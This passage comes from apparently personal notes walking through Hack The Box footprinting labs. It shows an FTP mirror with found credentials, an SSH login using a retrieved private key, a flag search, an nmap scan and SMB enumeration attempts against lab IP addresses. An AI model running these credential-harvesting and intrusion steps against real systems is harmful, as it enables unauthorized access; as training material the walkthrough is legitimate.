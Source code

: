     wget -m --no-passive ftp://ceil:qwer1234@10.129.42.195:2121
    ```
  
  * The '.bash_history' file mentions a 'flag.txt' file
  
  * From the fetched files, we have a ```id_rsa``` key - we can try to log into SSH using the creds and this file:

    ```sh
    chmod 600 id_rsa

    ssh ceil@10.129.42.195 -i id_rsa
    # the login works

    # we need to find the flag.txt file
    find / -type f -name flag.txt 2>/dev/null

    cat /home/flag/flag.txt
    ```

* Footprinting Lab - Medium:

  * Given, we have a server and an user 'HTB', whose credentials need to be found

  * Starting with ```nmap``` scan:

    ```sh
    nmap -T4 -p- -A -Pn -v 10.129.202.41
    ```
  
  * Open ports & services:

    * 111/tcp - rpcbind
    * 135/tcp - msrpc
    * 139/tcp - netbios-ssn
    * 445/tcp - microsoft-ds
    * 2049/tcp - mountd
    * 3389/tcp - ms-wbt-server
    * 5985/tcp - http
    * 47001/tcp - http
  
  * SMB enumeration:

    ```sh
    rpcclient -U "" 10.129.202.41

    samrdump.py 10.129.202.41

    /opt/enum4linux-ng/enum4linux-ng.py 10.129.202.41 -A
    # nothing works
    ```
  
  * SMB enumeration does not give us anything here due to login failure
